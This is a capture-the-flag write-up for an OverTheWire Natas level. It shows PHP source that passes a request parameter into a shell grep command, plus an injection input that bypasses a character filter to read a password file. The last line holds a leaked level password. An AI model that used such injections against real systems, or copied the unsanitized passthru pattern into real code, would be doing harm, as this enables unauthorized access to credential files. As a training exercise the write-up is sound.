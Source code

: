 Let's dive into the next level using the credentials obtained from the previous stage and explore what's happening under the hood.

![untitled](ScreenShots/Level%209%20->%2010.jpg)

In this level, we observe that the input entered is first filtered and then executed to retrieve the password. Here is the source code responsible for this process:
```php
<?
$key = "";
if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}
if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```
From the code, it's clear that the input is sanitized to prevent injection attacks using characters such as `;`, `|`, and `&`. However, similar to the previous level, we can bypass this restriction by manipulating the destination file.

To exploit this, we can use the following command:
```bash
grep -i ". /etc/natas_webpass/natas11 #" dictionary.txt
```
Executing this command allows us to view the password for the next level by tricking the `grep` command into reading the sensitive file.

Armed with the retrieved password, we can proceed to the next level using the following credentials:
```
URL: http://natas11.natas.labs.overthewire.org
Username: natas11
Password: Password obtained via the bash injection exploit
```
<!-- Password: `1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg` -->